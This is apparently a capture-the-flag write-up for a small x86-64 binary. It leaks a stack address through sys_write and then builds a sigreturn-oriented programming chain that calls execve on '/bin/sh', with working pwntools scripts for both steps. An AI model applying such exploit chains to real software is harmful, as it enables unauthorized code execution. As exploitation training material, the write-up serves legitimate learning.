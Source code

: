 # 1st step: Leak_Stack

We have to call back start func 

![pwn1.png](images/pwn1.png)

Next time we have to set `rax` = 1 so we cant xor `rax` again -> call `0x4000b3`

Because of the `rax` have to be `1` to call `sys_write` -> send `1` byte

![pwn2.png](images/pwn2.png)

Now `rsi` point to `rsp` so we have to send back `0x3b` -> not change value of `rsp`

![pwn3.png](images/pwn3.png)

Now when it call sys_write, 0x400 bytes value of `rsi` pointer have printed

![pwn5.png](images/pwn5.png)

Because i have use sigrop -> have to set `/bin/sh` string but dont have any in prog yet -> find stack addr because i write it in stack next time

![pwn4.png](images/pwn4.png)

Find the nearest addr with `rsi`

![pwn6.png](images/pwn6.png)

Double check!

script for this step: 

```
syscall = 0x4000be
payload = flat(
    0x4000b0,0x4000b3,0x4000b0,
)
GDB()

p.send(payload)
p.send(b"\xb3")
p.recv(0x1a8)
leak = int.from_bytes(p.recv(8),"little")
print(hex(leak))
```

# 2nd step: Sig_ROP

```
BINSH_addr = leak + 272
print(hex(BINSH_addr))
frame = SigreturnFrame()
frame.rax = 0x3b
frame.rsp = syscall
frame.rip = syscall
frame.rdi = BINSH_addr
frame.rdx = 0
frame.rsi = 0

payload = flat(
    0x4000b0,
    syscall,
    bytes(frame),
    b"/bin/sh\x00",
)
p.sendline(payload)                 # set up register

payload = p64(syscall)              
payload = payload.ljust(0xf,b"\xaa")
p.send(payload)                     # sysread -> rax = 0xf -> sigFrame
p.interactive()
```

we have to call sys_read again -> call main again and send 0xf bytes -> rax = number of bytes we send

call to sig_rop and get shell